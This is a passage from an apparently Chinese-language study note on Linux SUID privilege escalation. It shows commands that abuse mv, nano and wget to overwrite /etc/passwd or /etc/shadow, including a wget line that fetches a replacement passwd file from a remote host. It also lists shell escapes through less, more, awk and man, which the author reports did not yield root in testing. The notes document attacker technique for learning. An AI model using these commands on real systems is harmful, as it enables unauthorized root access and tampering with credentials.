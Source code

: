 ### 3.6 mv

同cp命令的步骤，覆盖 `/etc/shadow` 或 `/etc/passwd`

### 3.7 nano

```shell
nano filename
```

![image-20210627143244017](suid提权学习/image-20210627143244017.png)

![image-20210627143211352](suid提权学习/image-20210627143211352.png)

### 3.8 wget

```shell
wget http://192.168.88.88/passwd -O /etc/passwd
```

### 3.9 其他测试未提权成功的命令

网上见到有师傅整理的suid提权命令也包括下面几种，但我在Ubuntu 18和kali 2020中测试并不能提权成功，返回的只是当前用户的shell，这里先记录下

#### 3.9.1 less

```shell
less /etc/passwd
!/bin/sh
```

#### 3.9.2 more  

```shell
more /home/pelle/myfile
!/bin/bash
```

#### 3.9.3 awk

```shell
awk 'BEGIN {system("/bin/sh")}'
```

#### 3.9.4 man

```shell
man passwd
!/bin/bash
```
